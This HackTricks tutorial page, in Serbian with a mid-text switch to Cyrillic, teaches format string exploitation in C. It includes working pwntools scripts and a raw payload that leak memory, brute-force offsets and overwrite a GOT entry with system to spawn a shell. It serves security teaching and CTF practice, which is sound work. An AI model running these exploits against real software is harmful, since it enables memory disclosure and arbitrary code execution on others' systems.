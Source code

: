# Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

U C **`printf`** je funkcija koja se može koristiti za **štampanje** nekog stringa. **Prvi parametar** koji ova funkcija očekuje je **sirovi tekst sa formatima**. **Sledeći parametri** koji se očekuju su **vrednosti** za **zamenu** **formata** iz sirovog teksta.

Druge ranjive funkcije su **`sprintf()`** i **`fprintf()`**.

Ranjivost se pojavljuje kada se **tekst napadača koristi kao prvi argument** ovoj funkciji. Napadač će moći da kreira **poseban unos koji zloupotrebljava** **printf format** string mogućnosti da pročita i **zapiše bilo koje podatke na bilo kojoj adresi (čitljivo/zapisivo)**. Na ovaj način će moći da **izvrši proizvoljan kod**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Primeri:**

* Ranjivi primer:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normalna upotreba:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Sa nedostajućim argumentima:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf ranjiv:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Pristupanje Pokazivačima**

Format **`%<n>$x`**, gde je `n` broj, omogućava da se printf-u naznači da izabere n-ti parametar (sa steka). Dakle, ako želite da pročitate 4. parametar sa steka koristeći printf, mogli biste to uraditi:
```c
printf("%x %x %x %x")
```
и могли бисте читати од првог до четвртог параметра.

Или бисте могли да урадите:
```c
printf("%4$x")
```
и директно прочитати четврту.

Обратите пажњу да нападач контролише `printf` **параметар, што у основи значи да** ће његов унос бити у стеку када се позове `printf`, што значи да може написати специфичне адресе у меморији у стеку.

{% hint style="danger" %}
Нападач који контролише овај унос, моћи ће да **дода произвољну адресу у стек и натера `printf` да им приступи**. У следећем одељку биће објашњено како користити ово понашање.
{% endhint %}

## **Произвољно Читање**

Могуће је користити форматор **`%n$s`** да натера **`printf`** да добије **адресу** која се налази на **n позицији**, следећи је и **одштампати као да је то стринг** (одштампај до 0x00). Дакле, ако је базна адреса бинарног фајла **`0x8048000`**, и знамо да кориснички унос почиње на 4. позицији у стеку, могуће је одштампати почетак бинарног фајла са:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Napomena da ne možete staviti adresu 0x8048000 na početak ulaza jer će se string završiti sa 0x00 na kraju te adrese.
{% endhint %}

### Pronađi offset

Da biste pronašli offset do vašeg ulaza, možete poslati 4 ili 8 bajtova (`0x41414141`) praćenih **`%1$x`** i **povećavati** vrednost dok ne dobijete `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Koliko je korisno

Arbitrarna čitanja mogu biti korisna za:

* **Ispis** **binarne** datoteke iz memorije
* **Pristup specifičnim delovima memorije gde je smeštena** **osetljiva** **informacija** (kao što su kanari, ključevi za enkripciju ili prilagođene lozinke kao u ovom [**CTF izazovu**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitrarno pisanje**

Formatirnik **`%<num>$n`** **piše** **broj napisanih bajtova** u **naznačenu adresu** u \<num> parametru na steku. Ako napadač može da piše onoliko karaktera koliko želi sa printf, moći će da napravi da **`%<num>$n`** piše proizvoljan broj na proizvoljnu adresu.

Na sreću, da bi se napisao broj 9999, nije potrebno dodavati 9999 "A" u ulaz, da bi se to postiglo moguće je koristiti formatirnik **`%.<num-write>%<num>$n`** da bi se napisao broj **`<num-write>`** u **adresu na koju ukazuje `num` pozicija**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Međutim, imajte na umu da se obično za pisanje adrese kao što je `0x08049724` (što je OGROMAN broj za pisanje odjednom), **koristi `$hn`** umesto `$n`. Ovo omogućava da **se napiše samo 2 Bajte**. Stoga se ova operacija vrši dva puta, jednom za najviših 2B adrese i drugi put za najniže.

Stoga, ova ranjivost omogućava **pisanje bilo čega na bilo kojoj adresi (arbitrarno pisanje).**

U ovom primeru, cilj će biti da se **prepiše** **adresa** **funkcije** u **GOT** tabeli koja će biti pozvana kasnije. Iako bi ovo moglo zloupotrebiti druge tehnike arbitrarno pisanje za izvršavanje:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Mi ćemo **prepisati** **funkciju** koja **prima** svoje **argumente** od **korisnika** i **usmeriti** je na **`system`** **funkciju**.\
Kao što je pomenuto, za pisanje adrese obično su potrebna 2 koraka: Prvo **napišete 2Bajta** adrese, a zatim ostala 2. Da biste to uradili, koristi se **`$hn`**.

* **HOB** se poziva na 2 viša bajta adrese
* **LOB** se poziva na 2 niža bajta adrese

Zatim, zbog načina na koji funkcioniše format string, morate **prvo napisati manji** od \[HOB, LOB] i zatim drugi.

Ako je HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Ako je HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Šablon

Možete pronaći **šablon** za pripremu eksploita za ovu vrstu ranjivosti u:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ili ovaj osnovni primer iz [**ovde**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

Moguće je zloupotrebiti akcije pisanja ranjivosti format string-a da se **piše u adrese steka** i iskoristi ranjivost tipa **buffer overflow**.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bita, bez relro, bez kanarija, nx, bez pie, osnovna upotreba format string-a za leak flag-a iz steka (nije potrebno menjati tok izvršenja)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bita, relro, bez kanarija, nx, bez pie, format string za prepisivanje adrese `fflush` sa win funkcijom (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bita, relro, bez kanarija, nx, bez pie, format string za pisanje adrese unutar main u `.fini_array` (tako da se tok vraća još jednom) i pisanje adrese za `system` u GOT tabeli koja pokazuje na `strlen`. Kada se tok vrati u main, `strlen` se izvršava sa korisničkim unosom i pokazuje na `system`, izvršiće prosleđene komande.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ako ste zainteresovani za **hacking karijeru** i da hakujete nehakovano - **zapošljavamo!** (_potrebno je tečno pisanje i govorenje poljskog_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Support HackTricks

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.
{% endhint %}
